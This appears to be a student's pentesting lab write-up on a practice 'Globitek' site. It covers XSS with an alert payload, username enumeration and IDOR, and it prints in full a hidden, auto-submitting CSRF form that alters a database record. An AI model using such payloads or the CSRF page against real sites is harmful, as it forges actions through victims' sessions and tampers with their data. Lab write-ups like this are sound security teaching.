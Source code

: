 # Pentesting
Time spent: 8 hours spent in total

Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

Username Enumeration
Insecure Direct Object Reference (IDOR)
SQL Injection (SQLi)
Cross-Site Scripting (XSS)
Cross-Site Request Forgery (CSRF)
Session Hijacking/Fixation
Each version of the site has been given two of the six vulnerabilities. 
(In other words, all six of the exploits should be assignable to one of the sites.)


# Green

Vulnerability #1: Cross-Site Scripting
![](xss_green.gif)
Attacker can inject an XSS in their feedback form.
Injected XSS Command:
<script>alert('Raj found the XSS!');</script>
This XSS runs once the account holder checks their feedback page

Vulnerability #2: Username Enumeration
![](username.gif)
As you can see from above, the Green Website has the Username Enumeration error where the failure to login message differs for the Username that exists vs doesn't exist.
The "failure" class is applied an bold style in css while "failed" class doesn't.

# Red
Vulnerability #1: Cross-Site Request Forgery (CSRF)
![](CSRF.gif)
Created a malicious page that utilizes the user's session to forge a request to the database:

<html>
<head>
<title>NOT A FAKE FORM</title>
</head>
<body onload="document.my_form.submit()">
<form action="https://35.184.88.145/red/public/staff/salespeople/edit.php?id=3" method="POST" name="my_form" style="display: none;" target="hidden_results" >
<input type="text" name="first_name" value="You Fool!" />
<input type="text" name="last_name" value="Sorry_Mr.Barker" />
<input type="text" name="phone" value="777-777-7778" />
<input type="text" name="email" value="TROLLED@TORLLED.COM" />
</form>
<iframe name="hidden_results" style="display: none;"></iframe>
</body>
</html>

This page secretly makes a post request on page load and hides the outcome in a hidden iframe.
 As result, an account in the database is altered.
 
 Vulnerability #2: Insecure Direct Object Reference
 ![](IDOR.gif)
 
 Above GIF show an attacker getting access to the hidden user's accounts that the attacker is not permitted to view.
 This is done through modifying the "id" parameter in the URL's to change the GET request.

